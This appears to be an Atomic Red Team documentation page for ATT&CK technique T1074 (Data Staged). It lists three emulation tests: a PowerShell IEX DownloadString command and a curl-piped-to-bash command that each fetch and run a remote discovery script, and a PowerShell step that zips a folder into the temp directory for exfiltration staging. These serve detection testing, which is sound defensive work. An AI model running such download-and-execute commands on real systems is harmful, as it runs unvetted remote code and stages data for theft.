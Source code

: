 # T1074 - Data Staged
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1074)
<blockquote>Collected data is staged in a central location or directory prior to Exfiltration. Data may be kept in separate files or combined into one file through techniques such as [Data Compressed](https://attack.mitre.org/techniques/T1002) or [Data Encrypted](https://attack.mitre.org/techniques/T1022).

Interactive command shells may be used, and common functionality within [cmd](https://attack.mitre.org/software/S0106) and bash may be used to copy data into a staging location.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Stage data from Discovery.bat](#atomic-test-1---stage-data-from-discoverybat)

- [Atomic Test #2 - Stage data from Discovery.sh](#atomic-test-2---stage-data-from-discoverysh)

- [Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp](#atomic-test-3---zip-a-folder-with-powershell-for-staging-in-temp)


<br/>

## Atomic Test #1 - Stage data from Discovery.bat
Utilize powershell to download discovery.bat and save to a local file

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.bat') > pi.log
```



<br/>
<br/>

## Atomic Test #2 - Stage data from Discovery.sh
Utilize curl to download discovery.sh and execute a basic information gathering shell script

**Supported Platforms:** Linux, macOS


#### Run it with `bash`! 
```
curl -s https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1074/src/Discovery.sh | bash -s > /tmp/discovery.log
```



<br/>
<br/>

## Atomic Test #3 - Zip a Folder with PowerShell for Staging in Temp
Use living off the land tools to zip a file and stage it in the Windows temporary folder for later exfiltration.

**Supported Platforms:** Windows


#### Run it with `powershell`! 
```
Compress-Archive -Path $PathToAtomicsFolder\T1074\bin\Folder_to_zip -DestinationPath $env:TEMP\Folder_to_zip.zip
```


#### Cleanup Commands:
```
Remove-Item -Path $env:TEMP\Folder_to_zip.zip
```

<br/>
